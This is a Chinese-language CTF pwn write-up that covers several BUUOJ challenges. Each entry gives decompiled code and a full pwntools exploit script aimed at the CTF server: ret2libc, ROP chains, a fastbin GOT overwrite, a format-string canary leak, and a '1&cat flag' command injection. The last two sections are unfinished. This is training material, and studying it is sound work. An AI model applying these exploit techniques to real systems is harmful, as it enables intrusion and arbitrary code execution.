

[TOC]


## 0x20.jarvisoj_level3_x64

ret2libc

```python
from pwn import *
context(log_level='debug')
#io = process("./level3_x64")
io = remote("node3.buuoj.cn",29779)
elf = ELF("./level3_x64")
libc = ELF("./libc-x64-2.23.so")
write_plt = elf.plt['write']
read_got = elf.got['read']
main_addr = elf.sym['main']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1

io.recv()
payload = 'a'*(0x88)+ p64(pop_rdi_ret)+p64(1)
payload += p64(pop_rsi_r15_ret) +p64(read_got)+p64(8)+p64(write_plt)+ p64(main_addr)

io.sendline(payload)
read_add = u64(io.recv()[0:8])
print hex(read_add)
base = read_add - libc.symbols["read"]
sys_add = base + libc.symbols["system"]
bin_sh = base + libc.search("/bin/sh").next()

payload = 'a'*(0x88)+p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_add)+p64(main_addr)
io.sendline(payload)
io.interactive()
```

## 0x21.picoctf_2018_rop chain

win1():

```c
void win_function1()
{
  win1 = 1;
}
```

win2():

```c
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == 0xBAAAAAAD )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```

flag():

```c
int __cdecl flag(int a1)
{
  char s[48]; // [esp+Ch] [ebp-3Ch] BYREF
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 48, stream);
  if ( win1 && win2 && a1 == 0xDEADBAAD )
    return printf("%s", s);
  if ( win1 && win2 )
    return puts("Incorrect Argument. Remember, you can call other functions in between each win function!");
  if ( win1 || win2 )
    return puts("Nice Try! You're Getting There!");
  return puts("You won't get the flag that easy..");
}
```

构造ROP链

```python
from pwn import *
context(log_level='debug')
io = process("./PicoCTF_2018_rop_chain")
win1 = 0x80485CB
win2 = 0x80485D8
flag = 0x804862B
io.recv()
payload = 'a'*(0x18+4)+p32(win1) + p32(win2)+ p32(flag) + p32(0xBAAAAAAD) +p32(0xDEADBAAD) 
io.sendline(payload)
io.interactive()
```

## 0x22.[ZJCTF 2019]EasyHeap

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, buf, 8uLL);
      v3 = atoi(buf);
      if ( v3 != 3 )
        break;
      delete_heap();
    }
    if ( v3 > 3 )
    {
      if ( v3 == 4 )
        exit(0);
      if ( v3 == 4869 )
      {
        if ( (unsigned __int64)magic <= 0x1305 )
        {
          puts("So sad !");
        }
        else
        {
          puts("Congrt !");
          l33t();
        }
      }
      else
      {
LABEL_17:
        puts("Invalid Choice");
      }
    }
    else if ( v3 == 1 )
    {
      create_heap();
    }
    else
    {
      if ( v3 != 2 )
        goto LABEL_17;
      edit_heap();
    }
  }
}
```

creat没有什么问题，但是edit有问题，可以重新写任意长度。

delete在free后相应的heaparray就置位0。

大致思路是这样

```python
create(0x10,"a"*0x10)#idx0
create(0x80,"b"*0x10)#idx1
create(0x80,"c"*0x10)#idx2  防止与top chunk合并
delete(1)
edit(0,0x30,'a'*0x18+p64(0x91)+p64(0)+p64(magic-0x10))
io.recvuntil("your choice: ")
io.interactive(str(4869))
```

但是很可惜，buu他没有/home/pwn/flag这个文件，所以得用其他的方法了。

另一个思路：

-   首先create 3个chunk
-   使用house of sprite 技术，伪造chunk到heaparray附近，找一个地址开头为7f的来伪造相应大小的fastbin

```
pwndbg> x/32xw 0x6020a0 -3
0x60209d:	0x20000000	0x05212e06	0x0000007f	0x00000000
0x6020ad:	0xe0000000	0x05212df8	0x0000007f	0x00000000
0x6020bd:	0x00000000	0x00000000	0x00000000	0x00000000
0x6020cd:	0x00000000	0x00000000	0x00000000	0x00000000
0x6020dd:	0x10000000	0x0000db50	0x30000000	0x0000db50
0x6020ed <heaparray+13>:	0x50000000	0x0000db50	0x70000000	0x0000db50
0x6020fd <heaparray+29>:	0x00000000	0x00000000	0x00000000	0x00000000
0x60210d <heaparray+45>:	0x00000000	0x00000000	0x00000000	0x00000000
```

-   在chunk1写入/bin/sh，free掉chunk2
-   edit chunk1，并修改chunk2的fd为0x6020b0 -3
-   之后malloc两次，并修改heaparray为free_got.
-   继续ecit0，将free_got改为system
-   再之后delete chunk1就能拿到shell

exp:

```python
from pwn import *
context(log_level='debug')
#io = process("./easyheap")
io = remote("node3.buuoj.cn",26600)
elf = ELF("./easyheap")
def creat_heap(index,size,payload):
	io.recvuntil("Your choice :")
	io.sendline("1")
	io.recvuntil("Size of Heap : ")
	io.sendline(str(size))
	io.recvuntil("Content of heap:")
	io.sendline(payload)

def edit_heap(index,size,payload):
	io.recvuntil("Your choice :")
	io.sendline("2")
	io.recvuntil("Index :")
	io.sendline(str(index))
	io.recvuntil("Size of Heap : ")
	io.sendline(str(size))
	io.recvuntil("Content of heap : ")
	io.sendline(payload)

def delete_heap(index):
	io.recvuntil("Your choice :")
	io.sendline("3")
	io.recvuntil("Index :")
	io.sendline(str(index))
heaparray = 0x6020b0
free_got = elf.got['free']
sys = elf.plt['system']

creat_heap(0,0x68,"a"*10)#idx0
creat_heap(1,0x68,"b"*10)#idx1
creat_heap(2,0x68,"c"*10)#idx2
delete_heap(2)
payload = "/bin/sh\x00" + p64(0)*12 + p64(0x71) +p64(heaparray - 3)
edit_heap(1,size(payload),payload)
payload = "\xaa"*3+p64(0)*4 + p64(free_got)
creat_heap(0,0x68,"aaa")#idx2
creat_heap(0,0x68,'a')#fake_chunk
edit_heap(3,len(payload),payload)
edit_heap(0,len(p64(sys)),p64(sys))
delete_heap(1)
io.interactive()
```


## 0x23.bjdctf_2020_babyrop2

```
gwt@ubuntu:~/Desktop$ checksec bjdctf_2020_babyrop2 
[*] '/home/gwt/Desktop/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开了对战不可执行和canary。

主函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  gift(argc, argv);
  vuln();
  return 0;
}
```

```c
unsigned __int64 init()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Can u return to libc ?");
  puts("Try u best!");
  return __readfsqword(0x28u) ^ v1;
}
```

```c
unsigned __int64 gift()
{
  char format[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("I'll give u some gift to help u!");
  __isoc99_scanf("%6s", format);
  printf(format);
  puts(byte_400A05);
  fflush(0LL);
  return __readfsqword(0x28u) ^ v2;
}
```

```c
unsigned __int64 vuln()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

gift()中有格式化字符串，限制了长度，但是可以泄露canary值。

通过调试可以知道canary在格式化字符串的后面

格式化字符串偏移是6：

```python
from pwn import *
context(log_level='debug')
io = process("./bjdctf_2020_babyrop2")
fmt_str = 0x0400A01
pop_rdi_ret = 0x0000000000400993
io.recv()
gdb.attach(io)
payload = "aa%6$p"
io.sendline(payload)
io.recv()
```

所以canary是7.

接下来就是简单的栈溢出了。

```python
from pwn import *
context(log_level='debug')
#io = process("./bjdctf_2020_babyrop2")
io = remote("node3.buuoj.cn",26953)
elf = ELF("./bjdctf_2020_babyrop2")
libc = ELF("./libc-x64-2.23.so")
pop_rdi_ret = 0x0000000000400993
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
vuln_addr = elf.sym['vuln']
io.recv()
payload = "%7$p"
io.sendline(payload)
canary = int(io.recv(18),16)
print ("canary-->",canary)
payload = "a"*(0x20 -8) +p64(canary) + p64(123) + p64(pop_rdi_ret) + p64(puts_got)+p64(puts_plt) + p64(vuln_addr)
io.sendlineafter("story!\n",payload)
puts_addr = u64(io.recv(6).ljust(8,"\x00"))
print ("puts-->",hex(puts_addr))
base = puts_addr - libc.sym['puts']
system = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = b"a"*(0x18) +p64(canary) + p64(0) +p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
io.sendline(payload)
io.interactive()
```


## 0x24.jarvisoj_test_your_memory

看了看题目，以为会很难，，，，结果其实很简单，就是个简单的栈题。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s2[11]; // [esp+1Dh] [ebp-13h] BYREF
  int v6; // [esp+28h] [ebp-8h]
  int i; // [esp+2Ch] [ebp-4h]

  v6 = 10;
  puts("\n\n\n------Test Your Memory!-------\n");
  v3 = time(0);
  srand(v3);
  for ( i = 0; i < v6; ++i )
    s2[i] = alphanum_2626[rand() % 0x3Eu];
  printf("%s", s2);
  mem_test(s2);
  return 0;
}
```

```c
int __cdecl mem_test(char *s2)
{
  int result; // eax
  char s[19]; // [esp+15h] [ebp-13h] BYREF

  memset(s, 0, 0xBu);
  puts("\nwhat???? : ");
  printf("0x%x \n", hint);
  puts("cff flag go go go ...\n");
  printf("> ");
  __isoc99_scanf("%s", s);
  if ( !strncmp(s, s2, 4u) )
    result = puts("good job!!\n");
  else
    result = puts("cff flag is failed!!\n");
  return result;
}
```

exp:

```python 
from pwn import *
context(log_level='debug')
#io = process("./memory")
io = remote("node3.buuoj.cn",27913)
elf = ELF("./memory")

system = elf.sym['system']
cat_flag = 0x080487E0
main = elf.sym['main']

#io.recvuntil("> ")

payload = 'a'*(0x13+4) + p32(system)+p32(main) + p32(cat_flag)
io.sendline(payload)
io.interactive()
```

## 0x25.bjdctf_2020_router

emmm....这题怎么说呢看了半天，结果算是个脑洞题吧，就linux命令拼接。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-74h] BYREF
  char buf[16]; // [rsp+10h] [rbp-70h] BYREF
  char dest[8]; // [rsp+20h] [rbp-60h] BYREF
  __int64 v7; // [rsp+28h] [rbp-58h]
  int v8; // [rsp+30h] [rbp-50h]
  char v9; // [rsp+34h] [rbp-4Ch]
  char v10[56]; // [rsp+40h] [rbp-40h] BYREF
  unsigned __int64 v11; // [rsp+78h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  *(_QWORD *)dest = ' gnip';
  v7 = 0LL;
  v8 = 0;
  v9 = 0;
  v4 = 0;
  puts("Welcome to BJDCTF router test program! ");
  while ( 1 )
  {
    menu();
    puts("Please input u choose:");
    v4 = 0;
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:                                   // ping
        puts("Please input the ip address:");
        read(0, buf, 0x10uLL);
        strcat(dest, buf);
        system(dest);
        puts("done!");
        break;
      case 2:                                   // test
        puts("bibibibbibibib~~~");
        sleep(3u);
        puts("ziziizzizi~~~");
        sleep(3u);
        puts("something wrong!");
        puts("Test done!");
        break;
      case 3:                                   // leave comments
        puts("Please input what u want to say");
        puts("Your suggest will help us to do better!");
        read(0, v10, 0x3AuLL);
        printf("Dear ctfer,your suggest is :%s", v10);
        break;
      case 4:                                   // root
        puts("Hey guys,u think too much!");
        break;
      case 5:
        puts("Good Bye!");
        exit(-1);
      default:
        puts("Functional development!");
        break;
    }
  }
}
```

exp:

```python
from pwn import *
context(log_level='debug')
#io = process("./bjdctf_2020_router")
io = remote("node3.buuoj.cn",28235)
io.recv()
io.sendline("1")
io.recv()
io.sendline("1&cat flag")
io.recv()
```


## 0x26.hitcontraining_uaf


## 0x20.ez_pz_hackover_2016（未完成）

写shellcode

本题的重点是动态调试找偏移，也是fmt的题。

可用\x00终止cmp的比较。


```
gwt@ubuntu:~/Desktop$ checksec ez_pz_hackover_2016 
[*] '/home/gwt/Desktop/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s[1024]; // [esp+Ch] [ebp-40Ch] BYREF
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(s, 1023, stdin);
  v0 = strlen(s);
  v3 = memchr(s, 10, v0);
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", s);
  result = strcmp(s, "crashme");
  if ( !result )
    result = vuln((char)s, 0x400u);
  return result;
}
```


找偏移：

```python
from pwn import *
context(log_level='debug')
io = process("./ez_pz_hackover_2016")
lic = ELF('./libc-2.23.so')
gdb.attach(io)
io.recvuntil("crash: ")
stack = int(io.recvuntil("\n",True),16)
io.recvuntil("> ")
payload = b'crashme\x00'
payload +="aaaaaaaaaaaaaa"
pause()
io.sendline(payload)
io.recv()
io.interactive()
```



上面这两个的偏移是固定的，两个相减，就可以通过chash得到aaaa的地址。


## 0x21.ciscn_2019_es_2（未完成）

考点是栈迁移。

首先说下leve和ret

-   leave相当于：

    >   mov esp,ebp;
    >
    >   pop ebp;

-   ret相当于：

    >   pop eip;


```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
-00000028 s               db ?
-00000027                 db ? ; undefined
-00000026                 db ? ; undefined
-00000025                 db ? ; undefined
-00000024                 db ? ; undefined
-00000023                 db ? ; undefined
-00000022                 db ? ; undefined
-00000021                 db ? ; undefined
-00000020                 db ? ; undefined
-0000001F                 db ? ; undefined
```

恰好可以覆盖到rbp。

考点是栈迁移，但并不是迁移到bss或者data段，而是迁移到栈上。

通过第一次的printf获取rbp。

ebp到s的距离：

```
pwndbg> stack 40
00:0000│ esp 0xff84fb10 —▸ 0xff84fb68 —▸ 0xff84fb0a ◂— 0x8d87ff84
01:0004│     0xff84fb14 —▸ 0xf7fcdde0 (_dl_runtime_resolve+16) ◂— pop    edx
02:0008│     0xff84fb18 —▸ 0xff84fb60 ◂— 0x61616161 ('aaaa')
03:000c│     0xff84fb1c —▸ 0xf7ea8d60 (read) ◂— push   esi
04:0010│     0xff84fb20 —▸ 0xff84fb40 ◂— 0x61616161 ('aaaa')
05:0014│     0xff84fb24 ◂— 0x0
06:0018│     0xff84fb28 —▸ 0xf7f9a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
07:001c│     0xff84fb2c —▸ 0x80485be (vul+41) ◂— add    esp, 0x10
08:0020│     0xff84fb30 ◂— 0x0
09:0024│     0xff84fb34 —▸ 0xff84fb40 ◂— 0x61616161 ('aaaa')
0a:0028│     0xff84fb38 ◂— 0x30 /* '0' */
0b:002c│     0xff84fb3c ◂— 0xfbad2887
0c:0030│ ecx 0xff84fb40 ◂— 0x61616161 ('aaaa')
... ↓        9 skipped
16:0058│ ebp 0xff84fb68 —▸ 0xff84fb0a ◂— 0x8d87ff84
```


